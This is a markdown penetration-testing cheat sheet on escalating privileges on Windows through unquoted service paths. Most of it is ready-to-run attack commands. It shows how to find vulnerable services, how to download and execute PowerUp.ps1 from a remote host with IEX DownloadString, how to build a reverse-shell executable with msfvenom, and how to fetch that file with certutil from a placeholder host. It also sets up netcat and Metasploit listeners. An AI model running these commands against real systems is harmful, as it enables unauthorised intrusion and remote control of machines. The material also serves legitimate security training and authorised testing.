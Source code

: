 # Windows Priv Esc- Unqouted Service Paths

```
C:\Program Files\A Folder\vulnerable-application.exe
```

The way windows searches for a program means it will look in this order:

```
C:\Program.exe
c:\Program Files\A.xe
c:\Program Files\A Folder\vulnerable-application.exe
```

So if you can write to any of these locations you could place a malicious binary that is run instead.

## Checking Permissions

Via icacls:

```
icacls "C:\"
icacls "C:\Program Files"
icacl "C:\Program Files\A Folder"
```

Via Powershell:

```
 Get-Acl 'C:\Program Files' | % {$_.access}
```

Check to see if write permissions are given to the user, or a group they are a member of. 



## Finding Unquoted Service Paths

```
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

```
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://ip/PowerUp.ps1');Get-ServiceUnquoted"
```

https://powersploit.readthedocs.io/en/latest/Privesc/Get-UnquotedService/

IF a path is found you could also run the following to find a path you can write to:

https://powersploit.readthedocs.io/en/latest/Privesc/Get-ModifiablePath/

```
Get-ModifiablePath
```

An alternative is to modify powerup.ps1 to execute powerup automatically. Add whatever command to the bottom of powerup, for example all checks:

```
Invoke-AllChecks
```

then run:

```
echo IEX(New-Object Net.WebClient).DownloadString('http://IP:Port/PowerUp.ps1') | powershell -noprofile
```

## Exploiting with Modified Binary

To quickly create a malicious payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST= LPORT= -f exe -o name.exe
```

### Transfer the file 

You could host the file using SimpleHTTPServer and then use certutil:

```
certutil.exe -urlcache -f http://blah.com/name.exe name.exe
```

You could also use an SMBserver etc 

```
copy \\ip\folder\name.exe .
```

### Listener 

set up a netcat listener

```
nc -nvlp port
```

Use metsploit

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST
set LPORT
exploit -j
```

### Write-ServiceBinary

- Part of PowerUp
- https://powersploit.readthedocs.io/en/latest/Privesc/Write-ServiceBinary/

```
Write-ServiceBinary -Name 'Name of Service' -Command '\\IP\folder\name.exe' -Path 'C:\Program Files\A\name.exe'
```

### Stop/Start Service

- you might need to either wait for the system to restart 
- Or you could try and stop/strart the service if you have privileges

```
sc qc "service name"
sc stop "service name"
```



## Exploiting with Metasploit

- Once you have a meterpreter/other listener

```
use exploit/windows/local/trusted_service_path
set session x
exploit
```

